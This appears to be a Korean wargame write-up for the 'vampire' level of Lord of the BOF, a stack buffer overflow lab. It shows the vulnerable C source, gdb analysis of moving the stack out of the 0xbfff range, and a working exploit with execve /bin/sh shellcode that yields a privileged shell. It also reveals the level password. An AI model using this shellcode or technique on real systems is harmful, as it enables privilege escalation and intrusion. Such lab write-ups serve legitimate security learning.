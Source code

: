 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180829
modify_date: 2019-10-14
article_header:
  type: cover
  image:
    src: 
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

RET 주소의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많은 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.



```
[troll@localhost troll]$ ./aampire `python -c 'print "\x90"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*70000'`

릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜
Segmentation fault (core dumped)
```

```
[troll@localhost troll]$ gdb -c core -q
Core was generated by `./aampire 릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜 릱릱릱릱릱릱릱릱릱릱'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfffff in ?? ()
(gdb) x/4x $esp
0xbffeeb50:     0x00000000      0xbffeeb94      0xbffeeba4      0x40013868
```

argv[2]에 NULL값을 70000개 넣었더니 esp값이 0xbffexxxx 영역을 가리키고 있는 것을 확인하였다.



```
(gdb) x/100x $esp
=====================================(생략)================================
0xbffeec80:     0x00000000      0x38366900      0x2f2e0036      0x706d6161
0xbffeec90:     0x00657269      0x90909090      0x90909090      0x90909090
0xbffeeca0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffeecc0:     0xbfbfffff      0x90909000      0x90909090      0x90909090
0xbffeecd0:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
```

그리고 실제 Shell Code가 올라가는 주소는 `0xbffeeca0` 근처 인것도 확인하였다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
[troll@localhost troll]$ ./vampire `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e \x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xa0\xec\xfe\xbf"'` `python -c 'print "\x90"*70000'`
릱릱릱릱릱릱릱릱릱릱1픐h//shh/bin됥PS됣솻
                                         ?좎
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

-----

